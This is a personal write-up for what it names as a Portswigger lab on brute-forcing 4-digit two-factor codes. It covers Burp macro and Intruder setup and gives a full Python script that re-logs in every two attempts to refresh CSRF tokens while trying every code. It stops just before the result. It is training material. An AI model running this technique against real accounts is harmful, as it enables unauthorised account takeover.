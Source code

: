 # Lab Brute-forcing 2fa verification codes 2

## Objective:

 This lab's two-factor authentication is vulnerable to brute-forcing. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, brute-force the 2FA code and access Carlos's account page.

Victim's credentials: carlos:montoya 
## Start by looking at the login page

![[Pasted image 20210918214804.png]]

![[Pasted image 20210918215000.png]]

After logging in, a new login page at /login2 is displayed

![[Pasted image 20210918214842.png]]

![[Pasted image 20210918215030.png]]

Notice the csrf token values. These are important

I tried a couple of mfa options 0000, and 0001. I noticed that after 2 attempts, I automatically get redirected to the login page. 

To complete this lab, I need to brute force every the mfa code by using every possible option. Since the mfa code is only 4 digits, this is possible .

To do this, I need to use burp macros and session handler options, to create login for every mfa attempt. This would ensure that I would receive a new csrf token value.

1. Go to > Project options 
2. From "Session Handling Rules", click "Add"

![[Pasted image 20210918215525.png]]

I will use Session Handling Rules to login and get a new csrf token when I use burp intruder to brute force the mfa code

3. Click "ADD" to create a new Rule action. This will open a new prompt.

![[Pasted image 20210918215650.png]]

4. Click "Add" to create a new macro

![[Pasted image 20210918215753.png]]

4. Under "Macro Recorder", choose the requests needed for the login.

![[Pasted image 20210918215928.png]]

1. The First GET request to /login is needed to get the csrf and set-cookie value
2. The POST request used the csrf value and set-cookie value and authenticates using the carlos:montoya credentials
3. The third GET request collects the csrg token value from /login2 

The reason I chose those values is because they are needed to receive a valid csrf token for the /login2 page. This is the page where Burp Intruder will be brute forcing the mfa code. 

From the "Scope" tab of the "Session Handling Rule Editor", make sure that "Intruder" and "Include All URL's" is selected. This makes sure that intruder will run this macro on every request. 

![[Pasted image 20210918220349.png]]

The next step is to use intruder to brute force the mfa code

I selected the mfa-code value as the target

![[Pasted image 20210918221043.png]]

I chose the following payload options:

![[Pasted image 20210918221115.png]]

This ensures that every 4 character option from 0-9 is iterated through

![[Pasted image 20210918221206.png]]

Session handling does not take multiple threads too well, so I had to do this 1 thread at a time. 

I started the attack 

![[Pasted image 20210918221342.png]]

The 200 response codes mean that my the csrf tokens are working which means the macros are correctly functioning. 

In the meantime, I wrote a python script to do the same thing. 

-------------------------------------------------------
`
'''
Portswigger lab 2FA bypass using a brute-force attack

This script logs in with the provided credentials to /login.

After this login, the session will get redirected to /login2 which will ask for the MFA code. This code is only 4 digits and can be brute forced.This script will iterate through every option until the MFA code is successful. 

Because of CSRF defense, I will need to relogin every 2 MFA attempts to get a valid CSRF token. 

'''

import sys
import re
import requests
import urllib
import urllib3

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
login2Cookies = []
login2CSRF = []

def mfaBrute(url):
	#brute mfa prompt by attempting every possible option for a 4 digit code(0000,0001,0002,etc). After 2 attempts, login again to get a new valid csrf and token values
	numbers = [0,1,2,3,4,5,6,7,8,9]
	attempt = 1

	for p1 in numbers:
		for p2 in numbers:
			for p3 in numbers:
				for p4 in numbers:
					mfaCode = str(p1) + str(p2) + str(p3) + str(p4)
					cookies = {'session': login2Cookies[-1]}
					data = {'csrf':login2CSRF[-1], 'mfa-code': mfaCode}

					print("Attempting {} with CSRF token of {} and cookie of {}".format(mfaCode,login2CSRF[-1],login2Cookies[-1]))
					p = requests.post(url + "/login2", cookies=cookies,data=data, verify=False, proxies=proxies)

					if "Incorrect security code" not in p.content:
						print("The pin of {} worked!".format(mfaCode))
						exit()

					if attempt % 2 != 0:
						print("Reauthenticating to get new tokens")
						getTokensLogin1(url)
					attempt += 1	

def getCSRF2(url,cookie2):
	#Send get request to /login2 and collect the second csrf token
	cookies = {'session': cookie2}
	r = requests.get(url + "/login2", cookies=cookies, proxies=proxies, verify=False)
	csrf2 = re.findall('[A-Za-z0-9]{32}',str(r.content))[0]
	login2Cookies.append(cookie2)
	login2CSRF.append(csrf2)
	

def getCookie2(url,headers):
	#After authenticating, collect second cookie value for next login mfa prompt page
	cookie2 = re.findall("[A-Za-z0-9]{32}",str(headers))[0]
	getCSRF2(url,cookie2)
	
def authenticateLogin1(url,cookie1,csrf1):
	# Uses the collected information to authenticate
	cookies = {'session': cookie1}
	data= {'csrf': csrf1, 'username': 'carlos', 'password':'montoya'}
	p = requests.post(url + "/login",cookies=cookies,data=data,allow_redirects=False, verify=False, proxies=proxies)
	getCookie2(url,p.headers)

def getTokensLogin1(url):
	# Sends Get request to first login page and saves the cookie and csrf token value
	r = requests.get(url + "/login",verify=False, proxies=proxies)
	cookie1 = re.findall("[A-Za-z0-9]{32}",str(r.headers))[0]
	csrf1 = re.findall("[A-Za-z0-9]{32}",str(r.content))[0]
	authenticateLogin1(url,cookie1,csrf1)
	

def main():
	if len(sys.argv) != 2:
		print("(+) Not enough Arguments")
		print("(+)Example: {} http://example.com".format(sys.argv[0]))
	else:
		url = sys.argv[1]
		getTokensLogin1(url)
		mfaBrute(url)
		
if __name__ == "__main__":
	main()

`
---------------------------------------------------------------------

I used this script to start the attack

![[Pasted image 20210919152333.png]]


Eventually, we get the correct MFA code:

